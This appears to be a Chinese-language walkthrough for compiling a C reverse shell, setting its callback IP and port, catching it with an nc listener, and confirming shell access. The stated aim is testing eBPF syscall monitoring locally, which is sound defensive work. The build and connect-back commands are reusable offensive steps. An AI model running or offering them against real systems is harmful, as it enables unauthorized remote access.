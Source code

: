 现在test里面

进入仓库根目录，运行脚本把你要连接回的 IP/端口写进 `linux.c` 里：

```
cd ~/Program-test/c-reverse-shell
./change_client.sh 127.0.0.1 4444
```

这会把 `CLIENT_IP` 和 `CLIENT_PORT` 宏写到 `linux.c`。

------

## 2. 编译 Linux 版

还是在仓库根目录，直接用 Makefile：

```
make linux
```

完成后，会生成一个叫 `reverse.elf` 的可执行文件。

如果你想跳过脚本、手动编译，也可以这么写：

```
gcc -std=c99 -D_GNU_SOURCE \
    linux.c -o rsh.out \
    -DCLIENT_IP=\"127.0.0.1\" -DCLIENT_PORT=4444
```

------

## 3. 启动监听（Attacker）

在另一个终端里，先启动 netcat 监听端口：

```
bash


复制编辑
nc -lvp 4444
```

------

## 4. 在 QEMU-user 下运行

回到第一个终端，运行：

```

qemu-x86_64 ./reverse.elf
```

（如果你手动编译的是 `rsh.out`，就改成 `qemu-x86_64 ./rsh.out`）

这时程序会 fork 出子进程，子进程会向 `127.0.0.1:4444` 发起 TCP 连接，并把自己的 stdin/stdout/stderr 全部重定向到这个 socket。

------

## 5. 验证反弹 Shell

在你的 nc 窗口里，你应该会看到类似：

```
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54832
$ whoami
user
$ pwd
/home/user/test/c-reverse-shell
```

如果看到，就说明反向 Shell 成功了。

------

## 6. 同时监控它的系统调用

在另一个终端再开一个 bpftrace 监控脚本（比如你的 `monitor.bt`）：

```
cd ~/test/my_qemu_monitor
sudo ./monitor.bt
```

然后再执行上面的 `qemu-x86_64 ./reverse.elf`。你会实时看到：

```
SOCKET: domain=2 type=1 pid=54832
CONNECT: pid=54832
EXEC: /bin/sh (pid=54832)
```

等等关键调用被捕获。这样就完成了在 WSL2 + QEMU-user + eBPF 环境下，对这个反向 Shell 的端到端测试。